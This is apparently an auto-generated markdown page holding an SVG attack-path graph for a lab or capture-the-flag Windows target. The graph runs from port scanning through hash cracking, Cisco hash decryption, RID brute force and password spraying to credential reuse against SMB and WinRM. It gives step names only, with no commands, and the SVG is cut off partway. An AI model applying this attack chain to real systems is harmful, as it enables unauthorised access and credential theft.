

## Pentest Graph

**Layout:** `hybrid` | **Actions:** 12

> Click any action ellipse to jump to its section below.

> **Note:** No matching section found for: `nmap`, `contains`, `rid-brute-force`, `creds_vs_services`, `rid-brute-force`

## Graph

<svg width="1638" height="736" viewBox="0 0 1638 736" xmlns="http://www.w3.org/2000/svg" style="background:#0a0a0a">
<rect width="1638" height="736" fill="#0a0a0a"/>
<defs>
<marker id="ar" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#555553" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_port_80" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#5DCAA5" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_guest" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#EF9F27" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_file1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#97C459" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_MD5" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#F0997B" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_pass1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#ED93B1" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_pass2" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#EF9F27" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_valid_domain_users1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#F09595" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_SMB1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#85B7EB" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_valid_domain_users2" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#F0997B" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_WINRM1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#ED93B1" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_valid_creds1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#B4B2A9" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_user1" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#F09595" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_user2" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#B4B2A9" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_user3" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#85B7EB" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
<marker id="ar_hashes" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="5" markerHeight="5" orient="auto-start-reverse"><path d="M2 1L8 5L2 9" fill="none" stroke="#5DCAA5" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round"/></marker>
</defs>
<line x1="366.0" y1="161.0" x2="426.0" y2="55.0" stroke="#5DCAA5" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_port_80)"/>
<line x1="512.0" y1="161.0" x2="570.0" y2="55.0" stroke="#EF9F27" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_guest)"/>
<line x1="654.0" y1="161.0" x2="712.0" y2="55.0" stroke="#97C459" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_file1)"/>
<line x1="796.0" y1="275.0" x2="854.0" y2="55.0" stroke="#F0997B" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_MD5)"/>
<line x1="938.0" y1="161.0" x2="994.0" y2="55.0" stroke="#ED93B1" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_pass1)"/>
<line x1="1078.0" y1="199.0" x2="1181.0" y2="55.0" stroke="#ED93B1" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_pass1)"/>
<line x1="1078.0" y1="237.0" x2="1181.0" y2="93.0" stroke="#EF9F27" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_pass2)"/>
<line x1="1312.0" y1="351.0" x2="1368.0" y2="55.0" stroke="#F09595" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_valid_domain_users1)"/>
<line x1="393.0" y1="567.0" x2="531.0" y2="461.0" stroke="#85B7EB" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_SMB1)"/>
<line x1="662.0" y1="567.0" x2="718.0" y2="461.0" stroke="#F0997B" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_valid_domain_users2)"/>
<line x1="849.0" y1="681.0" x2="952.0" y2="461.0" stroke="#ED93B1" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_WINRM1)"/>
<path d="M1459.0,275.0 L1459.0,406.0 L353.0,406.0 L353.0,461.0" fill="none" stroke="#B4B2A9" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar_valid_creds1)"/>
<text x="906.0" y="402.0" text-anchor="middle" font-family="Arial, sans-serif" font-size="10" fill="#B4B2A9">valid_creds1</text>
<path d="M614.0,184.0 L229.0,184.0 L229.0,169.0 L1185.0,169.0" fill="none" stroke="#F09595" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_user1)"/>
<text x="226.0" y="176.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#F09595">user1</text>
<path d="M756.0,146.0 L211.0,146.0 L211.0,207.0 L1185.0,207.0" fill="none" stroke="#B4B2A9" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_user2)"/>
<text x="208.0" y="176.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#B4B2A9">user2</text>
<path d="M756.0,184.0 L193.0,184.0 L193.0,245.0 L1185.0,245.0" fill="none" stroke="#85B7EB" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_user3)"/>
<text x="190.0" y="214.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#85B7EB">user3</text>
<path d="M756.0,222.0 L175.0,222.0 L175.0,93.0 L998.0,93.0" fill="none" stroke="#5DCAA5" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_hashes)"/>
<text x="172.0" y="157.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#5DCAA5">hashes</text>
<path d="M898.0,146.0 L157.0,146.0 L157.0,55.0 L1185.0,55.0" fill="none" stroke="#ED93B1" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass1)"/>
<text x="154.0" y="100.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#ED93B1">pass1</text>
<path d="M898.0,146.0 L139.0,146.0 L139.0,93.0 L1419.0,93.0" fill="none" stroke="#ED93B1" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass1)"/>
<text x="136.0" y="119.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#ED93B1">pass1</text>
<path d="M898.0,146.0 L121.0,146.0 L121.0,499.0 L769.0,499.0" fill="none" stroke="#ED93B1" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass1)"/>
<text x="118.0" y="322.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#ED93B1">pass1</text>
<path d="M1038.0,184.0 L103.0,184.0 L103.0,93.0 L1419.0,93.0" fill="none" stroke="#ED93B1" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass1)"/>
<text x="100.0" y="138.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#ED93B1">pass1</text>
<path d="M1038.0,184.0 L85.0,184.0 L85.0,499.0 L769.0,499.0" fill="none" stroke="#ED93B1" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass1)"/>
<text x="82.0" y="341.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#ED93B1">pass1</text>
<path d="M1038.0,222.0 L67.0,222.0 L67.0,131.0 L1419.0,131.0" fill="none" stroke="#EF9F27" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass2)"/>
<text x="64.0" y="176.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#EF9F27">pass2</text>
<path d="M1038.0,222.0 L49.0,222.0 L49.0,537.0 L769.0,537.0" fill="none" stroke="#EF9F27" stroke-width="1.2" stroke-dasharray="6 3" marker-end="url(#ar_pass2)"/>
<text x="46.0" y="379.5" text-anchor="end" font-family="Arial, sans-serif" font-size="10" fill="#EF9F27">pass2</text>
<rect x="0" y="30.0" width="1638" height="346.0" rx="0" fill="#111111" opacity="0.5"/>
<line x1="324.0" y1="70.0" x2="324.0" y2="90.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="324.0" y1="124.0" x2="324.0" y2="144.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="284.0" y="40.0" width="80" height="30" rx="6" fill="#378ADD" stroke="#85B7EB" stroke-width="0.5"/>
<text x="324.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E6F1FB">target</text>
<ellipse cx="324.0" cy="108.0" rx="30" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="324.0" y="108.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">nmap</text>
<rect x="282.0" y="146.0" width="84" height="30" rx="6" fill="#1D9E75" stroke="#5DCAA5" stroke-width="0.5"/>
<text x="324.0" y="161.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E1F5EE">port 80</text>
<line x1="324.0" y1="176.0" x2="324.0" y2="184.0" stroke="#555553" stroke-width="0.5"/>
<rect x="278.0" y="184.0" width="92" height="30" rx="6" fill="#D85A30" stroke="#F0997B" stroke-width="0.5"/>
<text x="324.0" y="199.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAECE7">port 135</text>
<line x1="324.0" y1="214.0" x2="324.0" y2="222.0" stroke="#555553" stroke-width="0.5"/>
<rect x="278.0" y="222.0" width="92" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="324.0" y="237.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">port 445</text>
<line x1="472.0" y1="70.0" x2="472.0" y2="90.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="472.0" y1="124.0" x2="472.0" y2="144.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="430.0" y="40.0" width="84" height="30" rx="6" fill="#1D9E75" stroke="#5DCAA5" stroke-width="0.5"/>
<text x="472.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E1F5EE">port 80</text>
<a href="#guest-login" target="_top">
<a href="#guest-login" target="_top">
<ellipse cx="472.0" cy="108.0" rx="32" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="472.0" y="108.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">login</text>
</a>
</a>
<rect x="432.0" y="146.0" width="80" height="30" rx="6" fill="#BA7517" stroke="#EF9F27" stroke-width="0.5"/>
<text x="472.0" y="161.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAEEDA">guest</text>
<line x1="614.0" y1="70.0" x2="614.0" y2="90.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="614.0" y1="124.0" x2="614.0" y2="144.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="574.0" y="40.0" width="80" height="30" rx="6" fill="#BA7517" stroke="#EF9F27" stroke-width="0.5"/>
<text x="614.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAEEDA">guest</text>
<a href="#file-found" target="_top">
<ellipse cx="614.0" cy="108.0" rx="32" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="614.0" y="108.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">found</text>
</a>
<rect x="574.0" y="146.0" width="80" height="30" rx="6" fill="#639922" stroke="#97C459" stroke-width="0.5"/>
<text x="614.0" y="161.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#EAF3DE">file1</text>
<line x1="614.0" y1="176.0" x2="614.0" y2="184.0" stroke="#555553" stroke-width="0.5"/>
<rect x="574.0" y="184.0" width="80" height="30" rx="6" fill="#E24B4A" stroke="#F09595" stroke-width="0.5"/>
<text x="614.0" y="199.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FCEBEB">user1</text>
<line x1="756.0" y1="70.0" x2="756.0" y2="90.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="756.0" y1="124.0" x2="756.0" y2="144.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="716.0" y="40.0" width="80" height="30" rx="6" fill="#639922" stroke="#97C459" stroke-width="0.5"/>
<text x="756.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#EAF3DE">file1</text>
<ellipse cx="756.0" cy="108.0" rx="42" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="756.0" y="108.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">contains</text>
<rect x="716.0" y="146.0" width="80" height="30" rx="6" fill="#888780" stroke="#B4B2A9" stroke-width="0.5"/>
<text x="756.0" y="161.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#F1EFE8">user2</text>
<line x1="756.0" y1="176.0" x2="756.0" y2="184.0" stroke="#555553" stroke-width="0.5"/>
<rect x="716.0" y="184.0" width="80" height="30" rx="6" fill="#378ADD" stroke="#85B7EB" stroke-width="0.5"/>
<text x="756.0" y="199.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E6F1FB">user3</text>
<line x1="756.0" y1="214.0" x2="756.0" y2="222.0" stroke="#555553" stroke-width="0.5"/>
<rect x="716.0" y="222.0" width="80" height="30" rx="6" fill="#1D9E75" stroke="#5DCAA5" stroke-width="0.5"/>
<text x="756.0" y="237.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E1F5EE">hashes</text>
<line x1="756.0" y1="252.0" x2="756.0" y2="260.0" stroke="#555553" stroke-width="0.5"/>
<rect x="716.0" y="260.0" width="80" height="30" rx="6" fill="#D85A30" stroke="#F0997B" stroke-width="0.5"/>
<text x="756.0" y="275.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAECE7">MD5</text>
<line x1="898.0" y1="70.0" x2="898.0" y2="90.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="898.0" y1="124.0" x2="898.0" y2="144.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="858.0" y="40.0" width="80" height="30" rx="6" fill="#D85A30" stroke="#F0997B" stroke-width="0.5"/>
<text x="898.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAECE7">MD5</text>
<a href="#cracking-md5-hash" target="_top">
<ellipse cx="898.0" cy="108.0" rx="32" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="898.0" y="108.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">crack</text>
</a>
<rect x="858.0" y="146.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="898.0" y="161.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">pass1</text>
<line x1="1038.0" y1="108.0" x2="1038.0" y2="128.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="1038.0" y1="162.0" x2="1038.0" y2="182.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="998.0" y="40.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="1038.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">pass1</text>
<line x1="1038.0" y1="70.0" x2="1038.0" y2="78.0" stroke="#555553" stroke-width="0.5"/>
<rect x="998.0" y="78.0" width="80" height="30" rx="6" fill="#1D9E75" stroke="#5DCAA5" stroke-width="0.5"/>
<text x="1038.0" y="93.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E1F5EE">hashes</text>
<a href="#decrypting-cisco-configuration-hashes" target="_top">
<ellipse cx="1038.0" cy="146.0" rx="39" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="1038.0" y="146.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">decrypt</text>
</a>
<rect x="998.0" y="184.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="1038.0" y="199.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">pass1</text>
<line x1="1038.0" y1="214.0" x2="1038.0" y2="222.0" stroke="#555553" stroke-width="0.5"/>
<rect x="998.0" y="222.0" width="80" height="30" rx="6" fill="#BA7517" stroke="#EF9F27" stroke-width="0.5"/>
<text x="1038.0" y="237.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAEEDA">pass2</text>
<line x1="1225.0" y1="260.0" x2="1225.0" y2="280.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="1225.0" y1="314.0" x2="1225.0" y2="334.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="1185.0" y="40.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="1225.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">pass1</text>
<line x1="1225.0" y1="70.0" x2="1225.0" y2="78.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1185.0" y="78.0" width="80" height="30" rx="6" fill="#BA7517" stroke="#EF9F27" stroke-width="0.5"/>
<text x="1225.0" y="93.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAEEDA">pass2</text>
<line x1="1225.0" y1="108.0" x2="1225.0" y2="116.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1185.0" y="116.0" width="80" height="30" rx="6" fill="#639922" stroke="#97C459" stroke-width="0.5"/>
<text x="1225.0" y="131.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#EAF3DE">pass3</text>
<line x1="1225.0" y1="146.0" x2="1225.0" y2="154.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1185.0" y="154.0" width="80" height="30" rx="6" fill="#E24B4A" stroke="#F09595" stroke-width="0.5"/>
<text x="1225.0" y="169.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FCEBEB">user1</text>
<line x1="1225.0" y1="184.0" x2="1225.0" y2="192.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1185.0" y="192.0" width="80" height="30" rx="6" fill="#888780" stroke="#B4B2A9" stroke-width="0.5"/>
<text x="1225.0" y="207.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#F1EFE8">user2</text>
<line x1="1225.0" y1="222.0" x2="1225.0" y2="230.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1185.0" y="230.0" width="80" height="30" rx="6" fill="#378ADD" stroke="#85B7EB" stroke-width="0.5"/>
<text x="1225.0" y="245.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E6F1FB">user3</text>
<ellipse cx="1225.0" cy="298.0" rx="68" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="1225.0" y="298.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">rid-brute-force</text>
<rect x="1138.0" y="336.0" width="174" height="30" rx="6" fill="#E24B4A" stroke="#F09595" stroke-width="0.5"/>
<text x="1225.0" y="351.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FCEBEB">valid_domain_users1</text>
<line x1="1459.0" y1="184.0" x2="1459.0" y2="204.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="1459.0" y1="238.0" x2="1459.0" y2="258.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="1372.0" y="40.0" width="174" height="30" rx="6" fill="#E24B4A" stroke="#F09595" stroke-width="0.5"/>
<text x="1459.0" y="55.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FCEBEB">valid_domain_users1</text>
<line x1="1459.0" y1="70.0" x2="1459.0" y2="78.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1419.0" y="78.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="1459.0" y="93.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">pass1</text>
<line x1="1459.0" y1="108.0" x2="1459.0" y2="116.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1419.0" y="116.0" width="80" height="30" rx="6" fill="#BA7517" stroke="#EF9F27" stroke-width="0.5"/>
<text x="1459.0" y="131.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAEEDA">pass2</text>
<line x1="1459.0" y1="146.0" x2="1459.0" y2="154.0" stroke="#555553" stroke-width="0.5"/>
<rect x="1419.0" y="154.0" width="80" height="30" rx="6" fill="#639922" stroke="#97C459" stroke-width="0.5"/>
<text x="1459.0" y="169.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#EAF3DE">pass3</text>
<a href="#password-spraying" target="_top">
<a href="#password-spraying" target="_top">
<ellipse cx="1459.0" cy="222.0" rx="42" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="1459.0" y="222.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">spraying</text>
</a>
</a>
<rect x="1398.0" y="260.0" width="122" height="30" rx="6" fill="#888780" stroke="#B4B2A9" stroke-width="0.5"/>
<text x="1459.0" y="275.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#F1EFE8">valid_creds1</text>
<rect x="0" y="436.0" width="1638" height="270.0" rx="0" fill="#111111" opacity="0.5"/>
<line x1="353.0" y1="476.0" x2="353.0" y2="496.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="353.0" y1="530.0" x2="353.0" y2="550.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="292.0" y="446.0" width="122" height="30" rx="6" fill="#888780" stroke="#B4B2A9" stroke-width="0.5"/>
<text x="353.0" y="461.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#F1EFE8">valid_creds1</text>
<ellipse cx="353.0" cy="514.0" rx="75" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="353.0" y="514.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">creds_vs_services</text>
<rect x="313.0" y="552.0" width="80" height="30" rx="6" fill="#378ADD" stroke="#85B7EB" stroke-width="0.5"/>
<text x="353.0" y="567.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E6F1FB">SMB1</text>
<line x1="353.0" y1="582.0" x2="353.0" y2="590.0" stroke="#555553" stroke-width="0.5"/>
<rect x="313.0" y="590.0" width="80" height="30" rx="6" fill="#1D9E75" stroke="#5DCAA5" stroke-width="0.5"/>
<text x="353.0" y="605.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E1F5EE">RPC1</text>
<line x1="575.0" y1="476.0" x2="575.0" y2="496.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="575.0" y1="530.0" x2="575.0" y2="550.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="535.0" y="446.0" width="80" height="30" rx="6" fill="#378ADD" stroke="#85B7EB" stroke-width="0.5"/>
<text x="575.0" y="461.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#E6F1FB">SMB1</text>
<ellipse cx="575.0" cy="514.0" rx="68" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="575.0" y="514.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">rid-brute-force</text>
<rect x="488.0" y="552.0" width="174" height="30" rx="6" fill="#D85A30" stroke="#F0997B" stroke-width="0.5"/>
<text x="575.0" y="567.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAECE7">valid_domain_users2</text>
<line x1="809.0" y1="590.0" x2="809.0" y2="610.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="809.0" y1="644.0" x2="809.0" y2="664.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="722.0" y="446.0" width="174" height="30" rx="6" fill="#D85A30" stroke="#F0997B" stroke-width="0.5"/>
<text x="809.0" y="461.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAECE7">valid_domain_users2</text>
<line x1="809.0" y1="476.0" x2="809.0" y2="484.0" stroke="#555553" stroke-width="0.5"/>
<rect x="769.0" y="484.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="809.0" y="499.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">pass1</text>
<line x1="809.0" y1="514.0" x2="809.0" y2="522.0" stroke="#555553" stroke-width="0.5"/>
<rect x="769.0" y="522.0" width="80" height="30" rx="6" fill="#BA7517" stroke="#EF9F27" stroke-width="0.5"/>
